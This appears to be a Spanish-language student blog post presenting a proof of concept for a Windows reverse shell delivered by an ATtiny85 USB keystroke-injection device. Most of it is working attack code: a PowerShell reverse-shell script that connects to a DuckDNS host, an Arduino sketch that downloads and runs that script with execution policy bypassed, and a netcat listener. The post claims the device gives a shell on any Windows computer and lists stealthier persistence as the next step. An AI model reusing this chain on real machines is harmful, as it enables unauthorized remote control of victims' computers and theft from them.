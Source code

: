 ```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-10-15T07:15:46.746Z
title: Prueba de Concepto Reverse Shell
slug: prueba-de-concepto-reverse-shell
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
  - powershell
description: Prueba de Concepto Attiny85.
---
```


## Objetivo

El objetivo de esta prueba de concepto es obtener una shell inversa en un sistema Windows y enviarla a un servidor remoto.

## Desarrollo

### Configuración del servidor 🖥️

Usamos la misma configuración de la <a href="https://blog.hharieta.lat/posts/tarea-998-prueba-de-concepto/#configuración-del-servidor-remoto" target="_blank">Tarea 998, Configuración del servidor remoto</a>, solo que ahora activamos otro puerto en el firewall de Ubuntu:

```bash
sudo ufw allow 8181
```

este puerto servirá para la descarga de nuestro script en el sistema Windows.

### Configuración de Script Rshell

Crea una carpeta llamada `scripts` en el directorio `$HOME` de tu usuario y dentro de esta carpeta crea un archivo llamado `unicorn` con el siguiente contenido:

```powershell
# $HOME/scripts/unicorn
$client = New-Object System.Net.Sockets.TCPClient('dominio.duckdns.org', 8080)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
};
$client.Close();
```

donde `dominio.duckdns.org` es el dominio que se creó en <a href="https://www.duckdns.org/" target="_blank">DuckDNS</a>, y `8080` es el puerto que está escuchando en el servidor remoto

**instala** `screen` en el servidor con el comando:

```bash
sudo apt -y install screen
```

**Crea** una sesión de `screen` con:

```bash
screen -S pythonServer
```

Ahora inicia un servidor HTTP en el puerto 8181 con el siguiente comando:

```bash
python3 -m http.server 8181
```

Presiona `Ctrl + A + D` para salir de la sesión de `screen`, el servidor seguirá corriendo en segundo plano. este pequeño servidor servirá para que nuestro Attiny85 pueda descargar el script `unicorn` y ejecutarlo.

> Puedes volver a la sesión de `screen` con el comando `screen -r pythonServer`

### Configuración de Attiny85 🧮

Usando el siguiente código en el Attiny85, se puede descargar el script `unicorn` y ejecutarlo en el sistema Windows:

```cpp
#include <DigiKeyboard.h>

void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
}

void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(2000); 
}

void typeCommand() {
    DigiKeyboard.println("Invoke-WebRequest -Uri 'http://dominio.duckdns.org:8181/scripts/unicorn' -OutFile 'C:\\Windows\\Temp\\unicorn.ps1';");
    DigiKeyboard.delay(2000);
    DigiKeyboard.println("powershell -ExecutionPolicy Bypass -File C:\\Windows\\Temp\\unicorn.ps1");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void setup() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(500);

    typeCommand();
    }

void loop() {}

```

_donde `dominio.duckdns.org` es el dominio que se creó en <a href="https://www.duckdns.org/" target="_blank">DuckDNS</a>_

El código ino lo debes cargar al Attiny85 similar a como se muestra <a href="https://blog.hharieta.lat/posts/tarea-998-prueba-de-concepto/#configuración-de-arduino-ide-2x" target="_blank">aquí</a>

### Configuración de NetCat 🐱

Usa el comando `nc` en el servidor para escuchar en un puerto específico, por ejemplo el puerto 8080:

```bash
nc -lvnp 8080
```

donde `-l` es para escuchar, `-v` es para verbose, `-n` es para no resolver nombres de dominio y `-p` es para especificar el puerto.

> Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás una shell inversa en el servidor remoto.

### Verificación 👀

Para verificar que la shell inversa se ha obtenido correctamente, se puede ejecutar el siguiente comando en el servidor remoto:

```bash
ls
```

y se debe obtener una salida del directorio de Windows:

![Reverse Shell](../../assets/images/sisprog/IMG_8769.jpg)

se creó un archivo `hack.txt` en el sistema Windows con el comando:

```bash
echo "Hackeado por el Gatovsky" > C:\\Users\\Jorda\\Desktop\\hack.txt
```

y se verificó que se creó correctamente con el comando:

```bash
cat C:\\Users\\Jorda\\Desktop\\hack.txt
```

![Hack](../../assets/images/sisprog/IMG_8770.JPG)

## Proximos Pasos

- [ ] Encriptar la comunicación entre el cliente y el servidor
- [ ] Crear un payload en Atttiny85 para ejecutar la shell inversa en un sistema Windows
- [ ] Crear un servicio de Windows para ejecutar la shell inversa en segundo plano

(Pasos opcionales si no me reprueba el profe)

---

Nota: Ninguna PC fue lastimada en la realización de esta prueba de concepto.
